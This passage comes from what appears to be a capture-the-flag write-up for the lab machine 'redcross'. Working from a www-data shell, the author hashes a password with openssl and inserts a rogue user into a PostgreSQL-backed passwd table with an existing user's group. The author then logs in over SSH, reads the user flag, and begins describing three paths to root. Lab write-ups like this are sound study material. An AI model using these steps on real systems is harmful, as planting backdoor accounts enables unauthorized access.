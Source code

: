 

    www-data@redcross:/var/www.md/admin/pages$ grep penelope /etc/passwd
    penelope:x:1000:1000:Penelope,,,:/home/penelope:/bin/bash



I'll create a password:



    www-data@redcross:/home/penelope$ openssl passwd -1 0xdf
    $1$wV7CPbj9$59kAklYgquXe5TuJYIT591



Now I'll add the user with penelope's group:



    unix=> insert into passwd_table (username, passwd, gid, homedir) values ('penel0xdf', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 1000, '/home/penelope');
    INSERT 0 1



Now I can ssh in:



    root@kali# ssh penel0xdf@10.10.10.113
    penel0xdf@10.10.10.113's password: 
    Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.

    penel0xdf@redcross:~$ id
    uid=2020(penel0xdf) gid=1000(penelope) groups=1000(penelope)

    penel0xdf@redcross:~$ ls
    haraka  user.txt



And I can grab `user.txt`:



    penel0xdf@redcross:~$ cat user.txt 
    ac899bd4...



## Shell As root

From penelope, there are three different paths to getting a shell as the
root user:

![](/img/1554240903953.png)

### Path 1: sudoers Group
